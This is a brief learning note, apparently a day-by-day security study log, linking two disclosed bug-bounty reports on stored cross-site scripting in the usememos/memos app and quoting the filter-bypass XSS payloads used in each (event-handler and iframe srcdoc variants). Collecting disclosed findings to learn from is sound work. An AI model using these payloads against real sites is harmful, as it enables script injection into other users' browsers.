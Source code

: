 <h1> Day 12 </h1>

<h2> Learning Resources </h2> 

[Bypass Stored XSS while creating a new post in usememos/memos](https://huntr.dev/bounties/cd8765a2-bf28-4019-8647-882ccf63b2be/)

Payload Used : /*/**<input type="text" value=`` <div/onmouseover='alert(1)'>X</div>**/*/* 

[Stored XSS while creating a new post in usememos/memos](https://huntr.dev/bounties/ad954cab-f026-4895-8003-99f5e3b507ed/)

Payload used : <iframe srcdoc='&lt;body onload=prompt&lpar;99&rpar;&gt;'>>#09;&gt;&
